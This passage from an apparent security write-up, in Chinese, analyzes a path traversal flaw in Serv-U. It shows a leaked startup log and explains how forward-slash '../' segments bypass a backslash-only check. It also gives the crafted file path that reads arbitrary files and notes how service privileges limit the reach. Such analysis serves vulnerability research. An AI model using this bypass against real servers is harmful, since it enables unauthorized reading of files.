 ```
[01] Tue 11Jun24 01:28:15 - Build Date: Thursday 21 March 2024 09:33
[01] Tue 11Jun24 01:28:15 - Operating System: Windows Server 2012 64-bit; Version: 6.2.9200
[01] Tue 11Jun24 01:28:15 - Loaded graphics library.
[01] Tue 11Jun24 01:28:15 - Loaded ODBC database library.
[01] Tue 11Jun24 01:28:15 - Loaded SSL/TLS libraries.
[01] Tue 11Jun24 01:28:15 - Loaded SQLite library.
[01] Tue 11Jun24 01:28:15 - FIPS 140-2 mode is OFF.
[01] Tue 11Jun24 01:28:15 - Valid Server Identity found
[01] Tue 11Jun24 01:28:15 - WinSock Version 2.2 initialized.
[01] Tue 11Jun24 01:28:15 - HTTP server listening on port number 43958, IP 127.0.0.1
[01] Tue 11Jun24 01:28:15 - HTTP server listening on port number 43958, IP ::1
[01] Tue 11Jun24 01:33:46 - FTP server listening on port number 21, IP 0.0.0.0 (192.168.86.68, 127.0.0.1)
[01] Tue 11Jun24 01:33:46 - FTPS server listening on port number 990, IP 0.0.0.0 (192.168.86.68, 127.0.0.1)
[01] Tue 11Jun24 01:33:46 - SFTP (SSH) server listening on port number 22, IP 0.0.0.0 (192.168.86.68, 127.0.0.1)
[01] Tue 11Jun24 01:33:46 - HTTP server listening on port number 80, IP 0.0.0.0 (192.168.86.68, 127.0.0.1)
[01] Tue 11Jun24 01:33:46 - HTTPS server listening on port number 443, IP 0.0.0.0 (192.168.86.68, 127.0.0.1)
[01] Tue 11Jun24 01:33:46 - FTP server listening on port number 21, IP :: (fd00::f7d7:c17c:722:4a8f, fe80::201b:ef99:f597:397%5, ::1)
[01] Tue 11Jun24 01:33:46 - FTPS server listening on port number 990, IP :: (fd00::f7d7:c17c:722:4a8f, fe80::201b:ef99:f597:397%5, ::1)
[01] Tue 11Jun24 01:33:46 - SFTP (SSH) server listening on port number 22, IP :: (fd00::f7d7:c17c:722:4a8f, fe80::201b:ef99:f597:397%5, ::1)
[01] Tue 11Jun24 01:33:46 - HTTP server listening on port number 80, IP :: (fd00::f7d7:c17c:722:4a8f, fe80::201b:ef99:f597:397%5, ::1)
[01] Tue 11Jun24 01:33:46 - HTTPS server listening on port number 443, IP :: (fd00::f7d7:c17c:722:4a8f, fe80::201b:ef99:f597:397%5, ::1)
```  
  
成功了！现在我们可以通过双点路径符号遍历操作系统的文件系统并读取任何文件（包括二进制文件），只要我们知道要读取的文件路径。  
  
值得注意的是，我们的目标是 Windows 系统，但能够/在 HTTP 请求中传递正斜杠 ( ) 字符作为路径分隔符。在 Windows 上，反斜杠字符 ( \) 是路径分隔符。这似乎是漏洞根本原因的关键部分。进一步调查，我们发现存在漏洞的函数试图通过\..\在攻击者提供的路径中查找路径段来检测路径遍历。但是，如果我们提供用正斜杠分隔的路径段，例如/../，我们就可以绕过此检查。稍后，在函数中  
sub_180165B60，在调用  
wfopen_s以实际打开此文件之前，将调用一个辅助方法，该方法会将所有字符替换/为底层操作系统的本机路径分隔符\。因此，我们可以通过提供最初构造为如下的路径来通过路径遍历路径段的检查：  
```
C:\Program Files\RhinoSoft\Serv-U\Client\/../../../../ProgramData/RhinoSoft/Serv-U/\Serv-U-StartupLog.txt
```  
  
然后在打开之前，路径将转换为：  
```
C:\Program Files\RhinoSoft\Serv-U\Client\\..\..\..\..\ProgramData\RhinoSoft\Serv-U\\Serv-U-StartupLog.txt
```  
  
这是 Windows 上的有效路径。在基于 Linux 的目标上，技术是相同的，但是路径分隔符是相反的，因此\将替换为/。  
  
默认的 Windows 安装将以  
NT AUTHORITY\NETWORK SERVICE权限运行 Serv-U 服务。默认的 Linux 安装将以权限运行 Serv-U 服务  
root。如果 Serv-U 服务没有足够的权限读取某些文件，则正在运行的 Serv-U 服务的权限将影响读取该文件的能力。例如，如果 Serv-U 服务在 Linux 上运行  
root，则这不是问题。  
  